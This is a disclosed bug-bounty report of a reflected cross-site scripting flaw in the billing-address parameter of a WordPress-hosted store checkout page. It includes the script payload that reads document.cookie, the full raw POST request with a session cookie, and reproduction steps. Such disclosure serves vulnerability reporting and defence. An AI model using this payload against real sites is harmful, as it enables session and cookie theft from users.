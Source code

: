 # xss - reflected

## Report Details
- **Report ID**: 384112
- **URL**: https://hackerone.com/reports/384112
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-07-19T10:54:17.989Z
- **Disclosed**: 2018-07-24T13:17:31.047Z

## Reporter
- **Username**: arunthelegion
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
vulnerable url:  http://masterplan.wordpress.net/store/checkout/

payload:  1 Main Streetzbn0b\"><script>alert(document.cookie)</script>k8ez0

vulnerable parameter: billing-address

Request:

POST /store/checkout/ HTTP/1.1
Host: masterplan.wordpress.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://masterplan.wordpress.net/store/checkout/
Content-Type: application/x-www-form-urlencoded
Content-Length: 814
Cookie: PHPSESSID=a040c364fca0ec1d75201d8aaee61546; wordpress_test_cookie=WP+Cookie+check

billing%5baddress%5d=1%20Main%20Streetzbn0b%22%3e%3cscript%3ealert(document.cookie)%3c%2fscript%3ek8ez0&shipping%5bzip%5d=36310&billing%5bcountry%5d=AR&shipping%5baddress2%5d=1+Main+Street&payment%5bcardNumber%5d=555-555-0199@example.com&shipping%5bfirstName%5d=Peter&billing%5blastName%5d=Winter&shipping%5bcountry%5d=AR&payment%5bcardExpirationYear%5d=2018&billing%5bcity%5d=Winterville&billing%5bzip%5d=36310&shipping%5bcity%5d=Winterville&billing%5baddress2%5d=1+Main+Street&shipping%5blastName%5d=Winter&payment%5bsecurityId%5d=555-555-0199@example.com&shipping%5baddress%5d=1+Main+Street&payment%5bcardExpirationMonth%5d=01&payment%5bphone%5d=555-555-0199&payment%5bcardType%5d=Mastercard&billing%5bfirstName%5d=Peter&phpurchase-action=paypalprocheckout&sameAsBilling=on&payment%5bemail%5d=winter@example.com


Steps to reproduce:

1. get the request in burp repeater
2. see the response in browser
3. it will prompt you the session id.

## Impact

https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

## Attachments
- xss_wp_high.PNG
